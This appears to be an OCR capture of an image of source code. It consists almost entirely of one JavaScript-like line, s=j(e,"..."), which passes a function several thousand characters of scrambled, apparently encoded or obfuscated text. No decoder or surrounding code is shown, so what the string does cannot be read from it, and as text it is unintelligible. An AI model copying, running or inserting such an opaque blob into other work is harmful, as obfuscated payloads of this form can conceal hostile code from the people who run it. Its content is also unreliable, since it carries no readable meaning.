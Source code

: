 s=j(e,"-Tj#^;SZLuD9F.otZ;LDFtT^;DFZo#jLS.ujDtFZSTZoFj#K^oS#ttTF;SpoT##wSDojtt#u9TFotDF_F;oj1^u^9jFZS#L/DS#j;lSBKTTo^F.Uoo6#Fm;X^uLo.#L8.TTS;ZutD9o;jD9joS^T#.99?j;jL9..?tSZDDoT##Su9Dto^uZtF.TLTZuTojj;jFL#oTj;L^u.c^;^L..tTTj#Z.taT;SuFS9tjFS;Lotj;^ujoZT9ZT9.9L#9Z^FTU9TTS9.o:#;Z9^Do#TZt9!u;t^ToS#DLF.oDjTuF9uFZS9LLFu#D;ZL93ujS^t.Lt;jZDZF^tFZSu#.^^;SjLL#;u^9o0#^LS.L9uZ#F;uSZv9jLSZ.DtZ#^DuFZ.#ZLu;Du^ZS^DLTS##S.o;BjT:.;#j;oD#oLZDoTjSSDu^o9joStDLUo;TL..ZT;SSL)oSjSS99TttTZLt.^TZo9#TZ^9utouZFFFoTt;ZuFoTL;.^TFSSZ..ZT;Zo9..;#TL;FSDLto#TZS99oWt.s9DtFFo.Zou9.j^.SDZLTF#uZDo9?L#F.9#DS^DuooT##T#.ojttI.9TFoB.Llu..D^tSFuoTo#9^to./Dj99F.uTZL9DLFoZ9.Z7^^uLo9#.f_ZLjut9G;TSouoj/#.ZootYF#^9o.9?jL.DDo9;FZuut^FD;.;TD;tL^DjDo;#Z2Zojj#tZotTJo^9FA.oo9LtDF.F;oZ9Lu^oDD.ZTFSTLSD^9M;;ZjLdj^^TL)t#Td^.FjoaoouTDo9FSpZoLFjt^FSTTtZLDLo.#j;ZZ;LTjS^#;Tt;Tj;TF^oTTou#9,oLSjZtFT#T^oZ;jTLSDDot#^;uZZL#jL^;;#tZT^;#FSo#jzu;9j.uS^LT99##;pLZ,jTtjo.ToojjDU9.tFStLF9j;t9ooLj.ZjuZ9^.SSSL^uu#;;jLFp^jT#;.#t?ToDj9tyTZTLou.^3;.uZftjF^vtt^FLLF.TjF;lT;LSLohj^SuDuo.F;+.^ou#.LSu.TOL;_#jLo99bd^;SDLLu^#u;SS^ALj;S^.Zt^#TDSF#t9Z;uj.#^^STLtT##WS.X#^9LF.TTSFjMt;^LoZN99tu#oL#WFZj9LtL;TL..DDFtF#;ZD9to^0TTu9#.1T^LjDb9;;TSoDL^T9SFD?t;^ZuuSF.^LS;Z#TZ#^Z;oS:##Z9;.jt9L^DT.#;#ZCujjj^V;;tTOo#^F8.oooLtDF.D;oZFuTj.^DLTtFTujZF9oLjuuD9Zo99DFt^S;Lu.oj7Zj;#T.St#+TD;FjyTZ^uTFo^#SELZTjjtSuoTto#;9hF.f;ZtuFFD^oS9DuT.#D;9oF*u^I99.LTZLDDZ.S;uZSDjjL^S;9tZT^;#oZ^#ZI9;tDTt#FSLooP9^D9..DULLFDu9Z;9ZLDDjD^L;FtuTS;8FLo;tu9LUS^TLSF9ZFF^t9^#uZ..j+;FDSo^F#/o^FuT.SSo9#tL6DZZFut9tt;LLLF.Tj#Z;^SF:Sj#SZ.;t#*LD^FTt9Z#uIut^j;tuuTTjo^jCT^uLDFtT^F_tt;KL.So.ZtZ#FLTDSF#.9Z;uj.S^^SjZZT##kSDjjjZ^^ZotST#^.F;ojAo.^.utS!;DLF;tuZZu^.#^SS#LuD9DFF<jL^uLo.#tLTSjjFZo^tjuS9#tjS;Lj9t#^;TZ;Y#j&; .jotjoDT9oo.ZpL.9;#t;FSDcoj9^...tD#9F.ju;Su9oG);j#jt.^tTttD#F7ttZjLtFF^T;tS9Twj.S;.tt.T0DoF9oFuoxtjZSF9T.St#jDD;Fj.kZ^uT.j^#Swu^Tjjt;LoTto#09?F.ooZtuF.{^oS9ZtT.#D^toF7u^Z99.LtoLDDZF9;uZSDSjL^S;oTLS#DToSj99LjuSoDtF9joLj;^9T..jjSZLFDuFT;9ZL9FjD^L;.tuTS;erLa.jDS^.Ftu##D9FLt^9D##SLSD9Rt##LZ.#TZZ^.uF.ST9Sloo;ZuJ.9To^ZDZ.C#jL^9Fu. jjSS99+.;t#ttD^FTFtZ#uqFt^j;tuFTTjo;jo_t.j.DtFFk9Zou9FD^.SDuTTF#uZ#o9IL#t.9SIS^DuooLZoOjSZ;SZtj#DLjFNFd;FL9oj.^Su9%tj#FZj9;59^TL;LSjj;uDuoj.t;T9Lt.^TS9FjO;sZLjD^.S;.9uD;#rZ^9Lto;}L^.^oSj9Zg9;oTZ;9u9b#uL#.jAZ;LD/.Z9uTj^jLZFFtTMo#ZFM.ot#LtDFo9;oZ9LFj.^DZDtFTu;oF9oLTS99TD^^LuFo;SF?Ij;;u9LFuTDo.ZS}Zou#jt^FL9toT9jFF.oDTDuF9utoS9LL9S;9.,o^juSou#9WoZSjZtL.#T^oLt5WT.;TFtoFT;uo99o.S.LDDF#F;DStm9jL^o.DtLWLDuFSt^ZLuSD9^ZS^u9TS##^To;hj^#9^.Tp;.;ou^DZj9ZtFjT#o;Stsp.;T9t..tjLoD9o;u.Dj9ttuZTLoFL^H;.Lu^t;^ZjLjj#^ESFT#Z;uFoTjS^9SuZ;TD#Z^;ou,S^;9L.;TjLZD^.9;SZ#9;j;^j;ut^TT#tF#o=G9ujDtt;LjFFE9;&u;^LL^.9t.^tu;Zu.9Oj^ZLF9TFo(;Lpu.Do^tSFuFTo#9ZFo.VD#j9F.ut9L9Du9.;DZZ9Sju^S;DtLTSjLoL^DZT9St9jx#.Z^ot+FTD9o.9TFL.DD.o;FZuuDj9^LLZtDTZ#oFuoZt^uL9;FFSZL^uL;ZD#o:j;SDtj;FuotT#ZjLDT.S.L#TSTDSo9Thj.ST.ttF#9DoF9t#Z.u9DZ^FSuZZT9#LZZoD4Z^^tTToS#DLot#jZZ9F6j^9L9.HT;F.+t^;D<.F9^h2#.LjFZZ#9SHD^LLt.#:tSL#uZu9of#^DL..jTZ;.D;oSj9Z4jF;9DLtLFDTS;#uL..LuFFjQ;oD;ouj;Zo^DLt.^Tu;o9#oLj.ZjFu^o^TLSF9TT;;uD.tj^u#Dot##LZoFj6u^FuZZgT9S)D;tujtZ;9uto^#LF;jTj;ZuFtUjSSF9)pZLFZtF^6u;Ku#.LT.SjTLoF#TZS9Fmd^SLDoTjD;uuoo#jDS.9jtZ#Fu#FSO9;0uS.DjaS^99{D##ZL9.r^^ZLF.TTSSSD}o;jDZs9^tD#ou;Fol.;juZ.ojTSSD9tJ#FZD9tB^^DLo.^TLStt^oZjFZT9Zt9^7L;FDL#;^uu.oj^SLDotj#9yTFTxS^9uc.;T9;tD^T;joZ#9Lto^jLZFFT#;Su9oCjSZjDtt^#uo;jLZF9DQT^;LT.DDZot#cZ;9DZSD;tj^jT#;Lu.ojjZZu9TtS#9ujTZ,D^tu^.9ToS#DLo.;FZZ9FPT^ZL9.jT;S=#9o^juSo9LtL#oLjFL F;;T9.9jKS;Dtot#;ZuFjLL^LL..jj#;FDjoS#.Fj9;tD#tL;FuPo;#uLjujjSZDFtj#SZFF2TZ;jLt.^Tu;tD#oLj.Zj.^tF^TLSFFTM;SuDtT#jSuDot##uZ.FjhZ^FD9.ST9S